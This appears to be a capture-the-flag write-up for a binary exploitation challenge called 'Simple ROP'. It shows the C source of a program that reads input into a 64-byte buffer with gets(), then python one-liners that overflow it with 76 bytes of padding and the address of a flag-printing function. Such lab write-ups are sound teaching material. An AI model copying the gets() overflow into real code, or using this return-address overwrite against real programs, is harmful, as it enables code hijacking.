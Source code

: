 Challenge: Simple ROP 
----------------------------------------
Category: Binary Exploitation 
----------------------------------------
120 points 
----------------------------------------

```
Description:

Written by r3ndom

On the shell there is a folder /problems/simple-rop.
Hint: Read flag.txt

Files = Source and Binary
```

``` C
simple-rop.c

#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void print_flag();
void what_did_you_say();

int main(int argc, char* argv[])
{
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    what_did_you_say();
    return 0;
}

void print_flag()
{
    system("cat flag.txt");
}

void what_did_you_say()
{
    char buff[64];
    gets(buff);
    printf("You said: %s\n", buff);
}
```

gdb-peda$ p print_flag
$1 = {<text variable, no debug info>} 0x804851a <print_flag>  ===> address of 'print_flag'

BUFFER = 64

TEST IN LOCAL:

python -c 'print "A"*64+"\x1a\x85\x04\x08"' | ./simple-rop ===> NO match !
python -c 'print "A"*68+"\x1a\x85\x04\x08"' | ./simple-rop ===> NO match !
python -c 'print "A"*72+"\x1a\x85\x04\x08"' | ./simple-rop ===> NO match !
python -c 'print "A"*76+"\x1a\x85\x04\x08"' | ./simple-rop ===> MATCH !

<img src="./../Files/ROP.png">
